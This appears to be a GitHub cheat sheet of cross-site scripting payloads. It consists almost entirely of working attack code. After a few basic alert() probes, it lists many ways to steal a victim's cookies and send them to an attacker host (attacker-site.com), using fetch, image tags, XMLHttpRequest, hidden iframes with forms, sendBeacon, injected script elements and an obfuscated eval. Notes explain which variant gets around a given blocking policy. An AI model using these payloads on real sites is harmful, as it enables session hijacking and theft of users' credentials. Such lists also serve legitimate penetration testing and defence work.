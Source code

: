## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<script>alert(1)</script>
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
```

### Obtain cookies or tokens:

#### Sending cookies to an external server via fetch
```
fetch('https://attacker-site.com/steal-cookies?cookie=' + encodeURIComponent(document.cookie));

<img src=x onerror="fetch('https://attacker-site.com/?c='+document.cookie)">

<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104...));</script>

<script>(()=>{fetch('https://attacker-site.com/?c='+document.cookie)})()</script>

<script src="https://attacker-site.com/malicious.js"></script>
```


#### Using the Image object to transfer cookies (workaround)
```
let img = new Image();
img.src = 'https://attacker-site.com/log?cookie=' + encodeURIComponent(document.cookie);
```
- Bypassing security policies that block data transfer via "Fetch"

#### XMLHttpRequest with sending cookies in a GET or POST request
```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://attacker-site.com/steal?cookie=' + encodeURIComponent(document.cookie), true);
xhr.send();
```
- support for XMLHttpRequest, but fetch may be blocked

#### Using the form to transfer cookies through a hidden iframe
```
<iframe style="display:none;" name="steal-frame"></iframe>
<form action="https://attacker-site.com/log" method="POST" target="steal-frame">
    <input type="hidden" name="cookie" value="<script>document.cookie</script>">
</form>
<script>document.forms[0].submit();</script>
```
- Bypassing restrictions for XHR and CORS; invisible to the user

#### navigator.sendBeacon to transfer cookies to the backend
```
navigator.sendBeacon('https://attacker-site.com/steal-cookies', 'cookie=' + encodeURIComponent(document.cookie));
```
- Optimized for actions that are performed before closing the page; bypasses some policies that block other transfer methods

#### Inserting a call into the event handler (onload, onerror) through dynamically created elements
```
let script = document.createElement('script');
script.src = 'https://attacker-site.com/steal?cookie=' + encodeURIComponent(document.cookie);
document.body.appendChild(script);
```
